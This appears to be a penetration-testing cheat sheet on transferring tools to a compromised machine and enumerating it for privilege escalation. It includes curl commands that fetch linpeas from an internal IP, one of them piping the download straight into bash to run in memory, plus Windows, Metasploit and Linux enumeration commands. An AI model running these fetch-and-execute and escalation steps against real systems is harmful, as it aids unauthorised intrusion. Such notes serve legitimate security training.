 - [ ] `<http://ip/path>`: This is the URL of the file you want to download. Replace `<ip>` with the IP address of the web server, and `<path>` with the path to the file you want to download.
    
- [ ] **NOTE!!!** try to check on cd <span style="color: #2dc26b;">C:\\windows\\Temp</span> mostly is writeable
    

&nbsp;

### ==Curl== very powerful tool to interact with webservers <span style="color: #ffffff;">is a very powerful tool that can be used to interact with web servers</span>

```
curl 172.16.1.30/linpeas.sh -o /dev/shm/linpeas.sh
after download make write permissions to X
chmod 755 ./linpeas.sh
```

<span style="color: #000000;"><span>Alternatively, we can pipe the</span> **curl** <span>command directly into</span> **bash**</span><span style="color: #ffffff;"><span style="color: #000000;">, which will download the script directly into memory.</span></span>

```
curl 172.16.1.30/linpeas.sh | bash
```

<span style="color: #ffffff;">Doing this, the file is never actually downloaded to disk.</span>

&nbsp;

&nbsp;

* * *

&nbsp;

## ENUMARATIONS WITHIN

cmd `findstr` cmd `wmic qfc` cmd

cmd `wmic localdisk`

* * *

MSF

msf `local_exploit_suggester` msf

&nbsp;

# ENUMERATIONS ON LINUX MACHINE

[book.hacktricks.xyz privilege-escalation#system-information](https://book.hacktricks.xyz/linux-hardening/privilege-escalation#system-information)

Check arctecture of machine

```
cat /proc/version
uname -a
searchsploit "Linux Kernel"
lscpu #
```
